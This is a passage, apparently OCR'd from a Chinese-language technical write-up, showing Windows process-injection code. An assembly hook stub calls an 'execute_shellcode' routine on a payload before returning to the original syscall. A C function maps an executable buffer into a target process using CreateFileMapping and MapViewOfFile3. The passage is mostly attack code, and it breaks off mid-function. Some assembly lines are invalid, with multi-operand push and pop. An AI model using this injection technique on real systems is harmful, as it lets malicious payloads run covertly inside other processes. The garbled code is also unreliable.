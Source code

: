 ```assembly
    push r12, r13, r14, r15
    sub rsp, 0x20              ; Shadow space

    ; 调用 payload（offset +0x1A9）
    lea rcx, [rip + payload_offset]
    call execute_shellcode

    ; 恢复寄存器
    add rsp, 0x20
    pop r15, r14, r13, r12
    pop rsp, rsi, rdi, rbp, rbx, rax, r10

    ; 设置全局变量 = 1
    mov byte ptr [rdx], 1

restore_and_syscall:
    ; 跳转到原始 syscall
    jmp r10                    ; r10 包含原始 syscall 地址
```

### MapViewOfFile3 实现

```c
// 完整的映射分配函数
LPVOID MappingInjectionAlloc(
    HANDLE hProc,
    unsigned char *buffer,
    SIZE_T bufferSize,
    DWORD protectionType
) {
    // 1. 创建文件映射对象
    HANDLE hFileMap = CreateFileMapping(
        INVALID_HANDLE_VALUE,    // 匿名映射（不关联文件）
        NULL,                    // 默认安全描述符
        PAGE_EXECUTE_READWRITE,  // 最大保护
        0,                       // 高位大小
        (DWORD)bufferSize,       // 低位大小
        NULL                     // 无名称
    );

    // 2. 映射到本地进程（RW）
    LPVOID lpLocal = MapViewOfFile3(
        hFileMap,                // 文件映射句柄
        GetCurrentProcess(),     // 本地进程
        NULL,                    // 系统选择地址
        0,                       // 偏移 0
        0,                       // 整个映射
        0,                       // 无特殊分配类型
        PAGE_READWRITE,          // 可读写（用于写入数据）
        NULL,                    // 无扩展参数
        0
    );

    // 3. 写入数据
    memcpy(lpLocal, buffer, bufferSize);

    // 4. 映射到远程进程（根据需要设置保护）
    LPVOID lpRemote = MapViewOfFile3(
        hFileMap,                // 同一个映射对象
        hProc,                   // 目标进程
        NULL,                    // 系统选择地址
        0,                       // 偏移 0
        0,                       // 整个映射
```